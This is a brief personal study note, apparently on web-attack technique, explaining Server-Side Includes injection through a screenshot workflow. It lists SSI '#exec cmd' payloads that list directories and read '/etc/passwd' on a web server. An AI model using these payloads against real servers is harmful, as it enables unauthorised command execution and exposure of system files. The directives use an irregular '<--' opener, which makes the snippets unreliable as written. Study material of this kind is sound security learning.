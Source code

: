 [[Other-Injections]]
[Youtube](https://www.youtube.com/watch?v=GMSix1a1Mi0)

# Server-Side Includes (SSI) Injection
- SSI Injection is a server-side exploit technique that allows an attacker to send code into a web application, which will later be executed locally by the web server.


## Workflow
1. ![[Pasted image 20201211005339.png]]![[Pasted image 20201211005401.png]]
2.  `<-- #exec cmd="/bin/ls /"-->`
	1.  ![[Pasted image 20201211005521.png]]
	2.  ![[Pasted image 20201211005542.png]]
3.  `<-- #exec cmd="ls "-->`
	1.  ![[Pasted image 20201211005630.png]]
	2.  ![[Pasted image 20201211005644.png]]
4.  `<-- #exec cmd="cat /etc/passwd "-->`
	1.  ![[Pasted image 20201211010212.png]]
	2.  ![[Pasted image 20201211010224.png]]